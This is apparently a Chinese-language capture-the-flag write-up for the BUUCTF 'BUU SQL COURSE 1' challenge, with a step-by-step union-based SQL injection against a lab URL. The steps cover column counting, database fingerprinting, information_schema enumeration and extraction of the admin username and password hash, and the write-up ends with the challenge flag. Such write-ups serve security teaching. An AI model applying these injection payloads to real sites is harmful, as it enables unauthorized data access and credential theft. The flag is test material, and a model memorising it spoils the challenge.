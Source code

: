 ## [BUU SQL COURSE 1](https://buuoj.cn/challenges#BUU%20SQL%20COURSE%201)



## 0x00判断注入点



**此网站登录界面没有注入点，注入点被隐藏在请求网址中**



```url
http://xxx.cn:81/backend/content_detail.php?id=1
```



## 0x01使用order by 子句判断列数



```sql
http://xxx.cn:81/backend/content_detail.php?id=1 order by 1

http://xxx.cn:81/backend/content_detail.php?id=1 order by 2

结果为：

{"title":"\u6d4b\u8bd5\u65b0\u95fb1","content":"\u54c8\u54c8\u54c8\u54c8"}

```



到3时页面返回不正常，所以只有2列



## 0x02使用union select判断回显位置



```sql
http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1，2
```



结果为



```sql
{"title":"1","content":"2"}
```





## 0x03使用联合查询进行爆库等一系列操作



```sql
http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1，database()	#数据库名

http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1，version()		#数据库版本号

http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1，user()		#用户

http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1，@@version_compile_os	#平台
```



结果为

database		news

version		10.3.18-MariaDB

user		root@localhost

平台		Linux



## 0x04查询news数据库下的表



```sql
http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')
```



结果为



```sql
{"title":"1","content":"admin,contents"}
```



## 0x05查询admin和contents表



```sql
http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='admin')

http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='contents')
```



结果为



```sql
admin表：

{"title":"1","content":"id,username,password"}

contents表：

{"title":"1","content":"id,title,content"}
```



## 0x06查询admin表中的username和password的内容



```sql
http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1,username from admin

http://xxx.cn:81/backend/content_detail.php?id=-1 union select 1,password from admin
```



结果分别为



```sql
{"title":"1","content":"admin"}

{"title":"1","content":"b0a54ab070ad83caabc4187c7f35d4f6"}
```



## 0x06用查询到的用户名和密码去首页登录



**获得flag**



flag{9ce8ea3c-e9b8-4627-b849-f445602c4b7b}



作者

SihUi
